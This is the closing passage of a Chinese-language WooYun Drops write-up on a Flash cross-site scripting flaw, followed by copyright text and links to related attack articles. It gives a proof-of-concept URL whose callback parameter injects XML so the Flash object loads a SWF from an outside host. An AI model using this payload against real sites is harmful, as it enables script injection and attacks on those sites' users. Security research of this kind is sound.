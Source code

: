 有两个 url，Flash 会认为最后一个 url 有效。这样就有了 POC：

```
http://sandbox.host.smartgslb.com/flash_5/?url=./o.png&callback=url"><string>http://xsst.sinaapp.com/Xss.swf</string></property><property id="x 
```

## over

版权声明：未经授权禁止转载 [insight-labs](http://drops.wooyun.org/author/insight-labs "由 insight-labs 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [[XSS 神器]XssEncode chrome 插件 – 0x_Jin](http://drops.wooyun.org/tools/738)
*   [一种自动化检测 Flash 中 XSS 方法的探讨](http://drops.wooyun.org/tips/1985)
*   [Web 前端攻防](http://drops.wooyun.org/tips/2686)
*   [SSLStrip 的未来 —— HTTPS 前端劫持](http://drops.wooyun.org/tips/3199)
*   [攻击 JavaWeb 应用[4]-SQL 注入[2]](http://drops.wooyun.org/tips/288)
*   [XSS 与字符编码的那些事儿 —科普文](http://drops.wooyun.org/tips/689)